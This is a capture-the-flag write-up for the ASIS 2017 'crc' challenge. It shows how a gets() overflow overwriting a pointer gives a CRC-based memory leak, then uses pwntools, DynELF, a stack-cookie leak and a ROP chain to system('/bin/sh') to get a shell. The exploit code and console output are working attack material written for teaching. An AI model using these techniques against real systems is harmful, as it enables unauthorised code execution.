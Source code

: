 ```yaml
---
layout: post
title: ASIS 2017 Quals CRC
comments: false
category: ctf
tags: ctf, asis2017, pwnable, dynelf, leak, crc32
---
```


This is a write-up of the challenge crc from ASIS Quals 2017 CTF

## The challenge

The challenge is a 32-bits binary, which can calculate the crc32 of data we send it.

The challenge has stack cookies.

```text
**********WELCOME TO THE CRC32 CALCULATOR**********

------------------------
 1) Calculate a CRC
 2) Exit
------------------------
 Choice:
```

## The Solution

The challenge boils down to the following;

```c
char buf[100];
char *buf_ptr = &buf;
unsigned int size;
...
while(True){
    size = get_userinput_number()
    if(size > 99){ too much data }
    gets(buf);
    calcCrc(buf_ptr, size);
}
```

So the problem is that the `gets` can overwrite the pointer `buf_ptr`,
and so give us the crc32 of any byes in the memory.
This obviously leads to a memory leak.

### Reliable memory leak

```python
from pwn import *

reverse_crc = {crc.crc_32(p8(i)): p8(i) for i in range(2**8)}

r = process("./crcme_8416479dcf3a74133080df4f454cd0f76ec9cc8d")

@MemLeak
def leak(addr):
    if "\n" in p32(addr): return ""
    #Choice:
    r.sendline("1")
    #What is the length of your data:
    r.sendline("1")
    #Please send me 1 bytes to process:
    r.sendline("A"*100 + p32(addr))
    r.recvuntil("CRC is: ")
    crc = int(r.recvline(), 16)
    return reverse_crc[crc]
```

This leak is not good enough because the address from which we are leaking must not contain newlines.
However it demonstrates the vulnerability quite well.

We can fix the problem with most of the newlines if we simple leak 2 bytes instead and do a little workaround address with newlines:

```python
from pwn import *

reverse_crc = {crc.crc_32(p16(i)): p16(i) for i in range(2**16)}

r = process("./crcme_8416479dcf3a74133080df4f454cd0f76ec9cc8d")

@MemLeak
def leak(addr):
    f = 0
    if p32(addr)[0] == "\n":
        log.info("Leaking from address with newline... Fixing"
        f = 1
        addr -= 1
    #Choice:
    r.sendline("1")
    #What is the length of your data:
    r.sendline("2")
    #Please send me 2 bytes to process:
    r.sendline("A"*100 + p32(addr))
    r.recvuntil("CRC is: ")
    crc = int(r.recvline(), 16)
    return reverse_crc[crc][f:]
```

### Exploitation

Now we can simply use the pwntools pointer chasing magic module `DynELF` to leak symbols from libc:

```python
e = ELF("./crcme_8416479dcf3a74133080df4f454cd0f76ec9cc8d")
d = DynELF(leak, elf=e)

system = d.lookup("system", lib="libc.so")
log.info("system = 0x%x", system)

```

This gives us the address of `system`. Next thing we can do is find our buffer on the stack, leak the cookie.

```python
environ = d.lookup("environ", lib="libc.so")
log.info("environ = 0x%x", environ)

stack = leak.d(environ)
for i in range(0x400):
    if leak.d(stack-i) == 0x41414141: break
stack = stack - i
log.info("stack = 0x%x", stack)

cookie = leak.d(stack+8)
log.info("cookie = 0x%x", cookie)
```


Then if we put `/bin/sh\x00` in the buffer we overflow we can even find it at `binsh = stack-100+4`
and finally we can exploit the function `get_userinput_number` because it uses `gets` and ROP to win:

```python
rop = flat(["A"*40, cookie, "B"*12, system, 0x41414141, binsh])

assert "\n" not in rop

r.sendline(rop)

r.sendline("echo SHELL")
r.recvuntil("SHELL\n")

r.interactive()
```

## Final exploit
{% gist 7c32ef9277fac5930070322dff644380 %}

```console
$ python doit.py
[+] Calculating CRC reverse lookup table: Done
[!] Couldn't find relocations against PLT to get symbols
[*] '/home/user/crcme_8416479dcf3a74133080df4f454cd0f76ec9cc8d'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
[+] Starting local process './crcme_8416479dcf3a74133080df4f454cd0f76ec9cc8d': Done
[+] Loading from '/home/user/crcme_8416479dcf3a74133080df4f454cd0f76ec9cc8d': 0xf7792930
[+] Resolving 'system' in 'libc.so': 0xf7792930
[!] No ELF provided.  Leaking is much faster if you have a copy of the ELF being leaked.
[*] system = 0xf75de3e0
[+] Resolving 'environ' in 'libc.so': 0xf774ade0
[*] environ = 0xf774ade0
[*] stack = 0xffb67624
[*] cookie = 0xf92ee300
[*] Switching to interactive mode
$ cowsay "I got shell"
 _____________
< I got shell >
 -------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
$
```
